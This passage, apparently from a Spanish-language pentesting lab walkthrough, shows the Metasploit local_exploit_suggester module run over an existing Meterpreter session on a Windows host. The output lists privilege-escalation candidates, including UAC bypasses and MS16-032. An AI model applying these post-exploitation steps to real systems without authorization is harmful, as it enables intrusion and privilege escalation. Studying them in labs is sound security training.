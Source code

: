 <br>

<h3 id="Meterpreter2">Utilizando Módulo local_exploit_suggester para Encontrar Vulnerabilidades</h3>

Vamos a buscar a que es vulnerable la máquina con el módulo `post/multi/recon/local_exploit_suggester`.

Carguémoslo y configurémoslo:
```bash
msf6 exploit(multi/script/web_delivery) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
```

Ejecutalo:

```bash
msf6 post(multi/recon/local_exploit_suggester) > exploit
[*] 192.168.1.180 - Collecting local exploits for x86/windows...
You can add syslog to your Gemfile or gemspec to silence this warning.
Also please contact the author of logging-2.4.0 to request adding syslog into its gemspec.
[*] 192.168.1.180 - 203 exploit checks are being tried...
...
...
...
[*] Running check method for exploit 42 / 42
[*] 192.168.1.180 - Valid modules for session 10:
=============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 8.1/Windows Server 2012 R2 build detected!
 5   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
```
Hay algunos Exploits que podemos probar.

<br>
